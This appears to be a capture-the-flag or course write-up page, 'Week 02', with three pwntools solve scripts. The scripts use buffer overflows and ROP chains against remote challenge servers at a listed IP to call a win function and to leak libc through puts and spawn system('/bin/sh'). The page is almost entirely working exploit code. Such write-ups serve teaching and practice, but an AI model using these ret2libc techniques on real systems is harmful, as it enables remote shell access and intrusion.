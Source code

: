 +++
title = "Week 02"
weight = 1
slug="week-02"
description = "- args: ROPchain modify registers and call function<br>- leaked: use leaked system address to call system('/bin/sh')<br>- leakme: leak libc using puts and call system('/bin/sh')"
+++

# args
ROPchain to modify registers and call function

Solve script:
``` py
from pwn import *

p = remote("128.199.12.141", 7010)

buf = b'A'*40

win = p64(0x401142)

rdi_ret = p64(0x40121b)

rsi_r15_ret = p64(0x401219)

payload = buf + rdi_ret + p64(0xAAAA) + rsi_r15_ret + p64(0xBBBB) + p64(0xBBBB) + win

p.sendline(payload)

p.interactive()
```

# leaked
Use leaked system address to call system("/bin/sh")

Solve script:
``` py
from pwn import *

p = remote("128.199.12.141", 7001)

leak = p.recvuntil(b',')
system = p64(int(leak[-15:-1].decode(), 16))

buf = b'A'*40

bin_sh = p64(0x402008)

rdi_ret = p64(0x40122b)

p.sendline(buf + rdi_ret + bin_sh + system)

p.interactive()
```

# leakme
Leak libc using puts and call system("/bin/sh")

Solve script:
``` py
from pwn import *

p = remote("128.199.12.141", 7002)

exe = ELF("./leakme")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

puts_plt = p64(0x401030)
puts_got = p64(exe.got['puts'])

bin_sh = p64(0x402008)

rdi_ret = p64(0x4011fb)

vuln = p64(0x401142)

buf = b'A'*40

p.recv()

payload = buf + rdi_ret + puts_got + puts_plt + vuln
p.sendline(payload)

leak = p.recvline()

base = u64(leak.rstrip().ljust(8, b'\x00')) - libc.symbols['puts']

system = p64(base + libc.symbols['system'])

payload2 = buf + rdi_ret + bin_sh + system

p.sendline(payload2)

p.interactive()
```
